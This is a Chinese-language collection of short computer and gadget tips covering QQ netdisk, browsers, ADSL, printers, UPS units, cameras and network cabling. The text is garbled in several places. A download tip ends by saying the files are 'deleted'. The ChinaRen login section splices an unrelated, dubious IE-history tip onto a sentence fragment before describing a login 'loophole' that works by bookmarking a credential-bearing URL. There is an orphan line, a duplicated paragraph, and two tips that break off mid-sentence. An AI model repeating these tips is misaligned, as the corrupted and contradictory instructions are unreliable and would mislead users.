腾讯QQ网络硬盘操作简便，功能实用，但日积月累，16MB的免费空间就被填满了，于是想将网络硬盘中所有文件下载并刻录。可文件数目庞大，一一下载实在麻烦，而在QQ网络硬盘中默认是不可一次性多选文件的。最后我终于找到批量下载的方法:在QQ网络硬盘界面点击“显示切换”，再点击“小图标”按钮，这时网络硬盘会更改文件排列方式，然后按下Ctrl + A组合键全选文件，再拖动这些文件(文件夹)到桌面即可删除。
(木头人)

## Maxthon打开新窗口

在Maxthon中，往往某个链接被点中后直接在本页面打开，而不是使用新窗口打开，很多读者在使用时非常不习惯。其实我们可以通过Maxthon的“选项→Maxthon选项→标签→新建”，然后把“在新窗口中打开”下方选项中的“页面中的链接”前打上对勾，这样每次点链接时Maxthon都会用新的标签窗口打开新页面，大大方便我们浏览网页。
(softer)

## 保存网页加速法

浏览网页时碰到一些精彩的文章或精美图片，想把它们保存下来，如果使用常规办法，在碰到图片较多的情况下，速度会稍慢。但我们可以在保存网页前，先可以按一下“ESC”键或设置脱机工作状态再保存，这样保存速度就会快得多。
(小明)

## 一次下载Gmail邮件中的所有附件

如果你收到的某封邮件中包含了多个附件，按照一般方法得一个个保存。不过Gmail提供了一个“下载所有附件”功能:打开包含多个附件的邮件，点击“下载所有附件”链接，这样Gmail会将所有附件放置在一个ZIP包里，下载完毕后只需要解压缩该ZIP文件即可。
(SC)

## QQ免费建群有新招

众所周知，腾讯QQ等级达到16级太阳标志后就可免费建立固定群一个(会员除外)，如果需要建立多个群或等级未达到16级就只能望“群”兴叹？其实不然，如果你的腾讯TM为最新的Tencent Messenger)2005 Beta 1则还可建群一个，方法为:点击TM2005软件界面右上角的“我的企业”按钮，然后选择“注册新的企业，把你的同事邀请进来”，输入你的企业资料，并选择要加入你企业的QQ好友，片刻后就可以得到你的新QQ固定群了。
(木头人)

## 快速登录ChinaRen同学录

很多朋友经常会访问Chinaren同学录，可每次我们登录同学录的时候都必须输入一遍用户名和密码，非常不方便。其实Chinaren同学录可以通过以下方法快速登录:
首先，打开Internet Explorer浏览器，在菜单栏中选择“工具”，然后选择“Internet选项”，在“常规”选项卡中的“历史记录”部分，点击“设置”按钮，在弹出的窗口中确保“网页保存在历史记录中的天数”设置为一个较大的值，比如365天。然后，关闭所有Internet Explorer窗口，重新打开ChinaRen同学录网站，输入用户名和密码登录一次，以后再次访问时，浏览器就会自动记住登录状态，无需重复输入。
(自由人)的登录系统含有较严重的漏洞，我们可以利用该漏洞来快速登录。首先按照正常方式输入用户名和密码，点击“登录”按钮，等待新打开的窗口中显示“登录成功,转入系统,请稍候...”时，选择“查看→查看源文件”菜单，这时候我们能在源文件中找到“<form action="http://profile.chinaren.com/urs/...." method="get" name="form1">”，将该字段中的链接地址(也就是http开头的一长串字符)全部复制下来，保存好，以后我们就可以直接用该地址来访问自己的ChinaRen同学录了。将该链接添加到收藏夹中，以后就不再需要输入用户名密码了。注意，打开源文件的速度一定要快，源文件中要有“登录成功,转入系统,请稍候”的字样才对，否则就是打开的页面太迟了。可以点右键后迅速按下“V”键，这样可以提高打开源文件的速度。

## 在非IE、Firefox浏览器中使用Google Web Accelerator

很多朋友在使用Google Web Accelerator (下载地址http://dl.pconline.com.cn/html/1/2/dl/did=13762&dltypeid=1&pn=0&.html)来访问无法访问的国外站点，不过默认情况下Google Web Accelerator只能支持IE和Firefox(Firefox必须安装在C:\Program Files\Mozilla Firefox目录)两种浏览器。如果你使用的是Maxthon、GreenBrowser或者Opera等别的浏览器呢？一样可以享受Google Web Accelerator带来的功能。
如果是IE核心的浏览器，则首先在IE代理设置中将代理服务器地址设置为“127.0.0.1”，端口设置为“9100”，接下来在多页面浏览器中设置“启用代理服务器”；如果是其他核心的浏览器，则在相应的地方将代理设置为127.0.0.1:9100即可。

## 硬件

### 投影机灯泡的维护保养

投影机灯泡使用水银灯，它是用玻璃制成的，其内部为高压状态，在使用过程中或被振动时，水银灯有可能会爆裂。灯泡爆裂时，其玻璃碎片将散落在灯箱内，一些含水银的气体会泄漏出来。所以在使用时不要轻易振动投影机。灯泡使用时间过久或已经超使用寿命，爆裂的可能性会更大，所以，在投影机提示或显示需要更换新灯泡后，要及时更换。
如果投影机一次使用时间过长，造成灯泡温度过高，其投影机的Lamp(灯泡)指示灯会变红，这种情况一般不需要更换新的灯泡，只要关闭投影机，待其冷却后(一般需要20分钟左右)再开启即可使用。更换新的灯泡后，要复位灯泡计时器，否则，投影机的信息提示功能将不能起作用。

### 利用ADSL中的LAN指示灯识别网络故障

利用ADSL Modem中的LAN指示灯，可以简单地诊断出与自己计算机相连的网络设备和连接是否正常。
在CD指示灯或Link指示灯常亮的条件下，如果LAN指示灯不亮，就表示ADSL Modem和网卡之间的网络连接有故障出现。此时，尝试更换另外一个新网卡。
如果LAN指示灯常亮，但不能正确使用ADSL拨号时，可能是拨号软件出现问题。此时将它从系统中彻底删除，并重新正确地安装拨号软件，并使用正确拨号用户名与密码。如果还无法工作的话，就必须按下ADSL Modem中的复位按钮，让ADSL Modem采用默认的网络参数来工作。注意，在按复位按钮时，先找到该设备上的一个直径为2毫米左右的圆孔，在接通电源的条件下，用笔芯之类的坚硬东西戳进去，就可以感觉到按钮被按下了，同时必须保持这种状态10秒钟以上，才能算复位成功。
如果LAN指示灯处于常亮状态，ADSL Modem还不能进行通讯的话，必须认真检查一下与计算机相连接的网卡IP地址是否正确。注意网卡IP地址一定要与ADSL Modem的LAN口处的IP地址处在同一网段内，否则无法正常通信。

要拆开打印机清洗。

## ISA接口设备安装失败后该怎么办？

原因应该是系统资源冲突的问题。BIOS中有一项“PNP OS Installed”的设置，一般设为Yes。这样将由操作系统在启动时为设备分配中断、DMA通道等系统资源。如果设为No，那么将由BIOS来分配资源。在某些情况下(比如DOS或者Windows95中)，操作系统可能会因为资源冲突而无法正确分配资源，此时可试试改由BIOS来分配。同时将“Resources Controlled By(资源控制)”设为Manual(手动)，然后在下面的选项中把某些中断或DMA强制保留给老式ISA卡。

## 解决光电鼠标故障的诀窍

有时移动鼠标，光标的反应不像往常那般迅捷，感觉不听指挥了，这是由于鼠标灵敏度下降的原因，最常见的可能就是透镜通路脏了，光线不能顺利到达。如果确实是这样原因，那处理起来也很方便:和清洗机械鼠标的滚轮的道理一样，用棉球蘸清水轻轻擦拭发光管、透镜、反光镜及光敏管表面，只要感觉上光亮如新OK了!
光电鼠还经常出现指针飘移或定位不准的情况，这主要是因为现在有些鼠标为了追求时尚美观的透明造型，一旦光路屏蔽不好，再加上周围如果有强光干扰，很容易造成外界的杂光影响鼠标内部光电信号的传输，而产生的干扰脉冲便会导致指针的漂移。目前想自己根治此缺陷几乎是不可能。唯一的方法是购买的时候注意产品的外壳是否过度透明。

## 笔记本电脑上Fn键妙用

-   Fn+F3: 使计算机进入等待模式，当用户按下任意键(除Fn外)时，计算机立即恢复至待机前的状态。
-   Fn+F4: 使计算机进入挂起模式，当再次按下Fn键时，计算机将立即被唤醒。
-   Fn+F7: 当接有外部显示器时，可以按下“Fn+F7”组合键切换不同的显示模式(外部显示→内外同时显示→LCD)。
-   Fn+F8: 可以让屏幕扩展功能启用或关闭。
-   Fn+F12: 使电脑进入休眠模式，当按下电源开关时，注意时间必须小于4秒，电脑将立即被唤醒。
-   Fn+Home: 提高液晶屏幕的亮度。
-   Fn+End: 减小液晶屏幕的亮度。
-   Fn+Insert: 升高内置音箱音量。
-   Fn+Delete: 降低内置音箱音量。
-   Fn+Backspace: 静音。

## 清洁激光打印机搓纸轮防卡纸

激光打印机的搓纸轮在使用一段时间以后，很容易出现污垢，出现卡纸的问题，有时还出现字迹不清、纸张污浊等情况，这里我们就说说清理的办法。关闭打印机电源，拔掉电源线，然后把打印机硒鼓拿出。很多型号的激光打印机在把硒鼓拿出来后，就直接可以看到搓纸轮的所在了。先用小刀轻轻地清理表面可以看到的部分，注意，随时用刷子蘸酒精一点一点地把清理出来的垃圾粘出来。最好不要积攒很多一起清扫，因为如果很多的话，就会使酒精多次且密集地和搓纸轮接触，酒精过多，就会导致搓纸轮上面的胶皮过早硬化，从而减少其使用寿命。如果拿出硒鼓，仍旧不能看见搓纸轮的话，就要拆开打印机清洗。

## 笔记本日文键盘解决方案

不少购买装了英文或中文操作系统的日系二手电脑的读者，一定对键盘标点与键帽上不符的问题，深感头痛，能不能就使用日文键盘呢？答案是肯定的！首先修改键盘的驱动，将键盘驱动更换为“Japanese PS/2 Keyboard (106/109 Key)”，完成硬件更新向导。重新启动计算机。
接着启动注册表，进入“HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Keyboard Layouts”，里面有很多子项，以“0804”结尾的都是简体中文输入法。打开“E00E0804”，可以看到右侧子项里有“Layout File”子项，双击打开该项，将“数值数据”中的“kbdus.dll”改为“kbdjpn.dll”，“确定”即可。依此类推，可以将所有的以“0804”结尾的子项中“Layout File”全部改为“kbdjpn.dll”，具体就根据自己常用的输入法进行选择了。然后重新启动计算机就ok了！

## MP3播放小窍门

在用MP3播放器播放音乐时，用户可能会遇到的问题是:一些MP3文件和MP3播放器所支持的范围不同，容易出现跳过、死机的现象。原因一般是:采样率不符，一般的MP3播放器只能支持44.1KHz的采样率，因此采用48KHz录制的歌曲文件就不能正常播放出来;压缩率不符，如果MP3机不支持该MP3的压缩率(MP3压缩率过高，一般是超过128kbps或者采用VBR动态编码率)，也不可能播放出来;一些文件采用特殊的压缩软件压缩而来，默认的压缩格式为MPEG2，但显示的却是MP3格式，大部分MP3机也都不能支持。诸如以上这些问题的解决方法只能是或者删除、或者自己用软件重新转换音频格式或采样率、压缩率，转成符合该MP3播放器要求的即可。

## 不间断电源(UPS)的另类作用

一般UPS电源都是用来保证数据安全的。其实不间断电源同时还能保护硬盘。硬盘工作时都处于高速旋转之中，如果硬盘读写过程中突然断电，可能会导致硬盘的数据逻辑结构或物理结构的损坏，而遇到突然断电的情况，不间断电源就解决了后顾之忧。

## 通过Adobe Gamma实用程序进行显示器色彩校准

Adobe Gamma实用程序可以校准显示器的对比度和亮度、灰度(中间色调)、色彩平衡和白场。消除显示器显示时的色偏，使显示器的灰色尽可能成为中性色。使用步骤如下: 选取“载入”并选择与显示器最相符的ICC概貌，以此作为起点校准显示器(ICC概貌指一个色彩空间的描述。ICC概貌用在不同的平台之间准确地重现颜色); 先将显示器上的对比度和亮度调到最大值，再调整“亮度”和“对比度”，使顶部栏中的交错灰色方块尽可能暗(但不为黑)，同时使底部栏保持亮白; “荧光粉”选择项，选择一种类型的显示器。如果没有列出适合的类型，选取“自定”，然后输入显示器制造商指定的红、绿和蓝的荧光粉; 对于“灰度系数”，选取一个系统允许的选项来建立当前灰度系数设置; “Gamma值”，指选择想要的目标灰度系数。在Windows中默认是2.2; 对于“硬件”，按显示器制造商的说明选择显示器的白场，以决定使用暖白色还是冷白色。也可以测量显示器白场，选择“测量”，然后按照屏幕上的说明进行; 如果知道最终图像显示的色温，就在这里选择。否则，选择“与硬件相同”。

## 刻录的盘片(DVD+R)在其他DVD上无法读取

首先，请确认您的DVD光驱是否支持DVD+R/RW此种格式:如果不支持，联系DVD光驱的厂商，查看是否有新Firmware可以使您的光驱支持DVD+R/RW这种格式的盘片；其次，请确认您刻录的文件格式: 如果是DVD-Video盘片，请查看您刻录的文件格式是否是DVD-ROM格式，如果是DVD Data盘片，请注意您的盘片是否做过关闭盘片(Close Disk)的动作。

## 焊接工具的选择

只有具备一定的硬件改造的基本功，这样在改造过程中才能得心应手。这次我们就来看看焊接工具的选择。电烙铁要求烙铁尖，要细顶部的直径在1mm以下，功率为25W左右，不要选用大功率的，有条件的可以使用温度可调节带ESD保护的焊台。焊丝要细，纯度要高。进口焊芯直径为0.4mm或0.5mm，部分品质不好焊丝标的参数达不到。要实际地去分辨，不要看参数。助焊剂可以增加锡水的流动性，依靠表面张力作用光滑的包在引脚和焊盘的间隙。用松香代替，需将松香压成碎面撒放在焊接处最佳。焊接后用酒精清除PCB上的助焊剂，无水乙醇酒精含量不少于99.8%。尖头镊子、吸锡网、小硬毛刷、放大镜等辅助工具。

## USB “动力” 查看

知道自己的闪盘插入到计算机后，能否得到足够的“动力”吗？其实通过下面的方法，你可以很方面地查看到主板对USB HUB的供电情况。依次单击“开始”/“设置”/“控制面板”，在打开的控制面板窗口中，双击“系统”图标，在弹出的系统属性设置窗口中，单击“硬件”标签，并在对应的硬件标签页面中，单击“设备管理器”按钮；在接着出现的设备列表界面中，展开“通用串行总线控制器”选项，此时在该选项下面你会看到有几个“USB Root Hub”这样的项目，用鼠标双击其中的一个项目时，就能打开对应项目的属性窗口，单击该窗口的“电源”标签，就能够知道当前每一个USB端口所获得电量的多少了。

## “强行”停用闪盘

正确移除闪盘的方法应该是通过“安全删除硬件”图标来完成的，可在实际使用闪盘的工作中，你常常会发现在“安全删除硬件”的窗口中，仍然无法将闪盘安全移走。遇到这种情况时，你不妨先将所有与闪盘有关的内容窗口逐一关闭，同时将正在访问闪盘的所有应用程序全部退出，当然也要包括不引人注意的防火墙程序或杀毒软件。要是这些措施仍然不能将闪盘安全停用的话，那你不妨依次执行“开始”/“关机”命令，在打开的关机选项窗口中，选中“注销”命令，等到系统注销以后再重新登录，然后再尝试着通过“安全删除硬件”图标来停用闪盘看看，倘若还是不行的话，那就直接将计算机关闭掉，并在断开主机电源的情况下，直接拔除闪盘，这样的话就不会对闪盘造成伤害了。

## ADSL的指示灯都正常但仍然掉网

一台ADSL的指示灯为绿色，但也发生掉线现象，且重新启动Modem后就好了。这种情况多发生在没有代理服务器，没有做防火墙或没有路由器的网络用户上。这是因为在ADSL Modem上有个“10Base-T”口，这个口是接局域网的HUB口。虽然是10Mb/s的端口，但是ADSL的上行带宽只有几百Kb/s。如果用户局域网内部是ADSL直接接HUB，HUB再接下面的客户机，网络内的许多与ADSL无关的数据包将占用ADSL上行通道，ADSL也无法控制局域网内的广播风暴；如果超过ADSL上行传输能力，数据包将装入ADSL的缓存；如果数据量继续增大，缓存溢出，则造成ADSL“休眠”现象。这样只有重新启动Modem了。解决办法是做一台双网卡的代理服务器，这样可以隔断Modem与局域网之间的直接通信，避免上述问题。

## 谨慎使用DC高感光度

数码相机的成像部件也有自身接受光线的浮动范围，为了方便摄影者的理解，将数码相机对光线的灵敏度等效转换为传统胶卷的感光度值，因而数码照相机也就有了“感光度”。从对比看，图像噪点的与数码相机ISO感光度设置范围有至关重要的关系。要想不出现图像噪点，首先要尽可能将数码相机的ISO感光度设置得低一些，避免在光线暗淡或有阴影的位置拍摄。如果实在无法避开光线昏暗环境，拍摄也要尽量将ISO感光度设置得低一些，同时使用闪光灯补光。为了防止抖动产生噪点，最好使用三脚架等设备来拍摄。其次，可选择一部带有“噪点修正程序”，即“降噪”功能，且实用效果比较理想的数码相机。不过，数码相机中的这种降噪功能可能会影响照片的清晰度与锐利度。

## 键盘日常使用技巧

按键时间:按键时间是指按下某个键并保持住的时间，一般来讲按键时间不应过长。在按键时间大于0.7秒的时候，电脑会连续执行这个键的功能，直到松开为止。键盘操作:操作键盘时，按键动作要适当，不要在击键时用力过大、过猛，否则长时间使用后，会造成击键时手感不佳，不能输入相应字符，以至于按键的机械部件受损而失效。键盘清洁:随着键盘使用的时间和环境的不同，会造成键盘表面留有烟渍、油渍或灰尘，此时，可用柔软的湿布沾上少许的洗衣粉轻柔的擦洗，然后再用柔软而干净的湿布将粉迹擦净。注意:清洗键盘的时候一定是在断电的情况下进行。安装与拆除:当有必要拆除键盘的时候，应该先关闭电脑，再拔下与主机连接的电线插头，然后再进行拆卸，否则，带电插拔没有PS2接口键盘可能会导致键盘或主板接头的损坏。

## 西门子SX1手机控制电脑

我们可以使用软件:Nokia Wireless Presenter。这个软件，可以把SX1当作电脑的蓝牙鼠标使用，两种情况下应该比较有用:在演讲时或者在被窝里。如果你的mRouter正在连接，双击图标，取消里面的对勾，断开连接。然后分别安装Nokia Wireless Presenter手机端和电脑端的程序。启动电脑端程序，选择正确的本地服务COM端口，按“确定”使之最小化运行。启动手机端程序，选择“选项”→“连接”，连接到你的电脑。选择“Desktop”，然后就可以使用手机方向键移动鼠标指针了。另外，在电脑端可以编辑各种应用程序对应的配置文件。编辑好以后，在电脑上启动应用程序，手机端就会自动出现对应的选项，选择以后就可以使用你定义的键来控制程序了。

## 光驱内无盘不能出仓的故障处理

光驱内有光盘时，可以正常出仓，但无盘即不行，这可能是由于光驱传动部件老化，造成下夹盘的分离力减弱，当上下夹盘间持有盘片时，吸附力较弱，所以能正常分离；没有盘片时，上下夹盘直接接触，吸附力较强，大于分离力，所以上下夹盘无法分离。要解决这个问题，最简单的办法就是减弱上下夹盘间的吸附力。可以靠几个硬纸片来调整上夹盘磁铁与下夹盘的距离，以减弱吸力。需要一点一点地增加纸片的张数，如果太厚会导致光盘打滑。带有镀膜的塑料纸效果较好。如那种避光的真空包装袋等。操作时将光驱从电脑上拆除，把光驱外壳打开，取出上夹盘，将光驱商标贴签撕下，剪成圆形，垫在上夹盘磁铁的下面。最后将光驱装好即可。注意:光驱的上夹盘磁铁两面的磁力是不一样的，所以不要贴在磁铁翻面。提示:如果仅仅是一时无法弹出并不需要进行这样的处理，我们只要用一根针刺入光驱面板上的退出孔，然后一点一点把光驱手动弹出即可。

## MP3歌曲不能被识别

MP3播放器中部分歌曲不被识别，可能是采样率不对造成的。比方说你的MP3支持44.1kHz采样率，如果遇到48kHz采样率的歌曲就不能播放；还有压缩格式的问题，虽然电脑上歌曲显示为MP3格式，但它也有可能是MP2格式的文件，这是大多数MP3播放器不能播放的，解决的办法是重新压缩一次歌曲即可。此外，有的MP3播放器功能比较差，无法识别大写的扩展名，导致歌曲无法识别播放，此时只要将该文件扩展名修改一下即可。

## 让UPS自动休眠系统

如果在UPS电量耗尽时，你没有来得及关闭电脑，那么尚未保存的数据将会丢失。针对这种情况，我们该怎么办呢？首先，启动操作系统的休眠功能，依次单击“开始→控制面板→性能和维护→电源选项”，启用休眠功能。接着，安装UPS设备，可通过串口或USB口与电脑相连，打开“控制面板”中的“电源选项”，选择适当的UPS型号与端口进行安装。第三，配置UPS设备，打开“控制面板”中的“电源选项”，在“UPS”选项卡上，单击“配置”，选中“严重警报”下的“发出严重警报前电池上剩下的分钟数:”复选框，并在其后的框中选择一个适当的时间，比如“2”分钟。在“下一步，指示计算机去做”列表中，单击在电源严重短缺警报发生时想让计算机进入的系统状态，比如“休眠”。如果想在计算机关机时也让UPS关闭，请选中“最后，关上UPS”复选框。提示:配置好UPS选项后，一定要对UPS配

## 自制防水数码相机罩

如果你已经有了一台数码相机，可它既不是防水数码相机，也不能选购到合适的防水壳，那样的的话就只有自己动手来实现数码相机的防水功能啦！首先根据自己数码相机尺寸购买一个万用密实袋，质量当然要好一些！以确保不会容易进水。制作过程也很简单，先将数码相机放在密实袋内，并应放到袋角位置以防止走位。当放置好合适的位置后，在镜头位置的中心点画下记号，然后再将数码相机取出。然后在密实袋里面放件如厚书、木板这类的平整东西，以画下记号的点为中心点，用圆规刀沿着切出一个圆，而这个圆刚好比镜头小点的。把数码相机放回密实袋内，其中镜头对准被切出的圆的部分，找一个UV镜，由于那个被切出的圈比镜头小，所以镜头与UV镜之间可以经过胶袋来接合，这样一来数码相机完全被包裹在密实袋里面了，然后在UV镜与镜头之间的接口位置再卷一圈胶纸以确保不会漏水。为了测试一下它的密封性能，我们可以向密实袋里面吹口气进去，然后拉好封口，以里面的空气捏不出来为准。然后打开封口，把里面的空气全部挤出，最后封口并拿胶袋把空出来的胶袋部分扎好，防水数码相机罩就完成。提示：最后要提醒大家的是，这个设计只能应付一般细雨蒙蒙的环境，可千万不要拿它在瓢泼大雨的环境中使用，更不要说去潜水使用了。

## 确保投影机使用时的“同一性”

为了防止灯泡发生爆炸或者出现工作功率不匹配的现象，投影机对其连接的电源规格进行了严格的规定。用户在将投影机连接到电源插座上时，应注意电源电压的标称值、机器的地线和电源极性，并要注意接地。这是由于当投影机与信号源（如PC机）连接的不是同一电源时，两零线之间可能存在较高的电位差。当用户带电插拔信号线或其他电路时，会在插头插座之间发生打火现象，损坏信号输入电路，不但有可能会使灯泡不能正常工作，而且还可能损坏投影机，严重的话还能引起火灾事故。因此，我们最好使用随投影机附带的电源线，同时保证与电源线相连的插座要接地可靠。

## 红外摄像的两个误区

-   1. 白天使用红外线夜摄功能可能损坏数码摄像机
-   2. 误认为红外线夜摄可以拍摄无限远的景物

从原理上看，使用红外线夜摄进行拍摄的前提是数码摄像机能发出人们肉眼看不到的红外光线去照亮被拍摄的物体，所以说它的拍摄距离是有一定限制的，并不是无限远，当数码摄像机发出的红外线到达不了所要拍摄的物体，我们是无法拍摄到更远一些的景物的。

## 网线的制作标准

在使用T568A标准制作网线时，应该将RJ - 45水晶头的弹片面朝下放置，然后按照从左到右的顺序，将双绞线的“绿白”线、“绿”线、“橙白”线、“蓝”线、“蓝白”线、“橙”线、“棕白”线、“棕”线插入到RJ - 45水晶头中；在使用T568B标准制作网线时，应该将RJ - 45水晶头的弹片面朝下放置，然后按照从左到右的顺序，将双绞线的“橙白”线、“橙”线、“绿白”线、“蓝”线、“蓝白”线、“绿”线、“棕白”线、“棕”线插入到RJ - 45水晶头中。

而且在制作网线的过程中，必须遵循“同类”交叉、“异类”直通的原则来进行。例如，网卡与网卡直接连接，交换机与交换机直接连接，集线器与集线器直接连接等，都属于“同类”连接，因此你就必须使用交叉的连接法制作网线；在制作交叉型网线时，网线一端的RJ - 45水晶头中的导线顺序必须按照T568A标准制作，网线另一端的RJ - 45水晶头中的导线顺序必须按照T568B标准制作。此外，网卡与交换机直接连接，网卡与集线器直接连接等，都属于“异类”连接，所以你就必须使用直通的连接法制作网线；在制作直通型网线时，网线一端的RJ - 45水晶头无论是按T568B标准制作或T568A标准制作都可以，不过另外一端也必须按照相同标准来制作。

倘若你没有按照标准制作网线时，网络传输速度可能在开始阶段很正常，不过过了一段时间后，网络“反应”就会逐步迟钝了。

倘若你没有按照标准制作网线时，网络传输速度可能在开始阶段很正常，不过过了一段时间后，网络“反应”就会逐步迟钝了。

## 用带视频输入输出功能的显卡看电视

现在市面上很多显卡带有VIVO(Video In & Video Out，视频输入输出)功能，但这些显卡没有高频头，不能直接收看电视。因此如果要用来看电视，需要用一台电视频道增补器来“搭桥”。先通过电视信号分配器将电视信号线分为二路，一路连接到电视机，一路连接到电视频道增补器的信号线，线的另一端接入到电视信号射频插座。接下来将电视信号射频连接线一端插入到射频插座，一端插入频道增补器的“RF IN(射频输入)”插孔；再将音频线和视频线分别插入频道增补器的“Audio Out(音频输出)”和“Video Out(视频输出)”插孔中，视频线的另一端插入到VIVO显卡的“Video In(视频输入)”插孔中，音频线另一端接上音频转换插头的“莲花头”，再插入到声卡的“Line In”插孔中。至此，电视信号输入的线路连接已经完成。下一步只须做好视频软件的设置和调整就可以看电视了。提示：由于电视频道增补器要通过VIVO显卡的“Video In(视频输入)”插孔和声卡的“Line In”插孔输入电视视频、音频信号，所买的频道增补器必须有一组视频信号输出端口和音频信号输出端口。如果视频信号输出端口如果是S端子(两分量视频端口)更佳。另外，声卡“Line In”插口和电视频道增补器的音频插头是不匹配的，因此还需要另配备一个音频“莲花头”插口转声卡“Line In”插口的转换插头。文中提到的配件可在电器配件市场买到，比在电脑市场购买便宜，百元左右就可搞定。需要注意的是上述工作都必须在机器断电的情况下进行。

## 数码摄像机自动停机的处理

一种情况是数码摄像机所使用的录像带表面上有划痕或不平整引起的，由于MINI DV的录像带本身就是金属带，如果录像带质量不佳，就特别容易磨损磁头，在这种情况下摄像机也会自动保护磁头。这时如果操作不当，很容易造成卷带，以至于录像带无法再使用。正确的操作方法是：当数码摄像机自动停机之后，应立即关闭摄像机电源，然后过一分钟左右，取出录像带，并查看录像带表面的划痕情况，如果划痕很多或很深，应该考虑更换录像带。另一种情况是当摄像机内部或录像带上凝结湿气时，摄像机会自动保护而无法工作，并且几秒钟后会自动关机。如果你的数码摄像机经常在比较潮湿或者温差比较大的环境下使用过，就有可能出现这种情况。去除摄像机内湿气最好的方法就是把摄像机放在通风干燥的地方，过两三个小时以后再使用，机器就会恢复正常了，遇到紧急情况时也可以使用电吹风来吹干，但是要注意不能用热风吹，否则会影响摄像机的使用寿命。

## 数码相机抖动拍摄法

模糊抖动拍摄法，指的是故意抖动照相机的拍摄方法。这种抖动往往是无规律的。它要求在按下快门的同时，凭感觉有节奏地晃动照相机，产生一种独特的虚化效果。使用抖动模糊法时，快门速度选择很关键，快门速度太高，抖动的效果不可能太明显；快门速度太低，抖动得太厉害会使画面模糊不清而什么也看不出来。在一般情况下，抖动的频率越高，快门速度就可以相对高些；抖动的频率越低，快门速度就可以低些。一般快门的速度应该选择在1/2 - 1/30秒之间。至于抖动的角度，可以根据画面的需要任意选择，如曲线、弧线、斜线以及其他的不规则线条，只要抖动的角度合适，就能产生意想不到的效果。

## 键盘失灵的修理

由于键盘内有两层印刷电路薄膜，中间夹着一层绝缘膜，绝缘膜只在按键处留有圆孔，这样击打按键就能使两层电路薄膜通过圆孔形成通路，若一层电路薄膜上有污渍，会使敲击按键时形成若干通路，导致同时显示几个字符。此时可以将三层薄膜取下后展开浸入水中，使三层薄膜互不粘连(薄膜上有三个固定点，不可拆开)，有污渍的地方可以用软布擦掉。浸泡一段时间后取出，用钩子挂住中间的绝缘膜自然风干。最后再检查一下有无较大的水渍，可用软布或餐巾纸轻轻擦去，然后晾干24小时，再将三层薄膜位置对好后安装回键盘中，此时即可解决键盘失灵的故障。

## Modem 不能连续拨号的处理

故障现象是开机第一次拨号连接正常，连接速率也很高。但有时出现服务器忙无法连上的情况时，默认几秒后Modem会自动重新连接，可等了一会系统却提示“Modem没有打开或电话线没有接好”。如果不停地试着连接，结果一样。这很可能电源电压不稳造成的。来硬的就是将Modem上的小电容换成容量大的(具体大小要依卡而定)。来软的，在Modem的附加指令中加上一句“at^n=00”。此外最好能够更换质量较好的电源加以解决。

## 双接头显示器的妙用

现在一些高档LCD显示器同时带DVI和D - SUB两种输入，很多用户都只把这当作两种不同的输入方式。其实这两个接头可以同时连接两台不同的电脑，通过显示器的设置能够在不同的主机间切换，再配上一套可方便热插拔的USB鼠标，可以组成一套工控机常用的系统控制切换套件。

## UPS 实用技巧

一般带有UPS设备的电脑在开机时应该首先给UPS供电，待工作稳定后再逐个打开负载，这样就避免了负载电流对UPS的冲击。注意负载总功率不能大于UPS的额定功率，避免UPS处于过载状态。个人用户使用UPS时，当市电发生异常而转为UPS电池组供电时，应及时关闭负载并关机，待市电恢复正常再开机使用。UPS电池组对温度要求较高，标准使用温度为25℃，平时最好不要超出15℃~30℃这个范围。温度过低不但会减小电池组的容量，还会进一步影响UPS的使用寿命。

## 大家齐动手，本本连接显示器

一般来说，笔记本电脑都具有双显示功能，只要把普通的CRT或者LCD显示器接到本本上，就可以让图像显示在普通CRT或者LCD显示器上了。要实现外接显示器功能，首先需要在BIOS中打开此功能，通常是把“Display”选项设定为“Auto - Selected”即可。连接数据线前关闭本本的电源，以防止静电损坏电脑。为了能够更好地进行双屏设置，一般需要安装最新的显卡驱动。使用时需注意最好不在两个显示器上使用相同的显示设## 让不断重启的电脑恢复正常

一台电脑启动不久就会死机或重新启动。如果排除了软件和超频因素，那故障很可能是出在CPU风扇的安装上。一般这种情形都是散热片和CPU核心部分接触有空隙，CPU过热，主板侦测到后就会重启保护。

眼下的CPU对散热风扇的要求越来越高。散热风扇安装不当而引发的问题相当普遍。如果你使用的是Pentium 4或Athlon之类的CPU，要选择质量过硬的CPU风扇，并且一定注意其正确的安装方法。比如扣具方向装反了，就可能导致安装不到位从而引发无故的频繁死机与重启。

## 数码相机镜头的清理方法

最简单的办法是“吹”，手按住吹气球的气囊向着镜头吹气就行了，方便简单，可以经常使用，保持镜头干净。接着就是“擦”，不到万不得已绝对不用，办法是对着镜头轻轻哈一口气。用麂皮或镜头笔的麂皮端在镜头表面朝向一个方向擦，手一定要轻，幅度一定要小。洗镜头是实在无奈的选择，需要使用专用的镜头清洗剂，方法与擦拭镜头类似。清洁相机镜头主要就是这么几招。如果可能最好还是加一块UV镜，这样可以有效地阻挡灰尘，起到保护镜头的作用。

## 160GB大硬盘升级必读

支持大硬盘的关键是BIOS是否支持48位寻址，首先下载Intel出的一个小工具来检验一下(ftp://download.intel.com/support/chipsets/iaa/48lbachk.exe)，如果不行就需要升级主板BIOS。分区使用WinMe上自带的FDISK或Win2000/XP启动光盘来做是最可靠的。此外，如果使用不支持48位寻址的操作系统，在访问大于137GB的数据时有可能会数据崩溃，所以一定要去微软网站下载补丁，Windows 2000的用户，打上SP4补丁。Windows XP至少要安装SP1。如果要使用Windows 98，则考虑在分区时将之划分在前面，而且将超过100GB的部分划分为NTFS，这样可以避免Win98访问后面的数据导致崩溃的发生。总之，升级超大硬盘时一定要做好完全的准备，无论是硬件还是软件的使用都要考虑周详。否则最痛苦的局面是安装时还一切正常，但当访问到硬盘120GB以上时就造成丢失数据甚至整个分区，这时就悔之晚矣了。

## 把你的摄像头改造成临时扫描仪

只要安装了Microsoft Office XP/2003，就可以用手中的摄像头扫描文稿或照片来应急。从开始菜单中打开“Microsoft Office → Microsoft Office工具→Microsoft Office Document Scanning”组件，一般这个组件是属于选择组件，使用前可以通过Office安装盘来添加。接着设置扫描模式，点击“扫描仪”按钮，选择使用的摄像头型号并确定。返回主界面后，我们就可以点击“扫描”按钮。将摄像头对准需要扫描的文稿或照片，并调整到最清晰，然后点击“拍摄相片”按钮，扫描操作会在后台自动完成，并且还会在扫描结束后对扫描文档自动执行OCR(光学字符识别)。

## 复印机图像偏淡的维修

一台理光复印机，尽管原稿清晰，但复印出的文字颜色却偏淡，调节浓淡控制按钮也没有明显作用。一般这种情况是由于墨粉过少，载体老化或载体与墨粉比例失调，显影器安装不到位，充电电极或转印电极电压不够或电极丝已脏污、老化，感光鼓老化失效等因素造成。

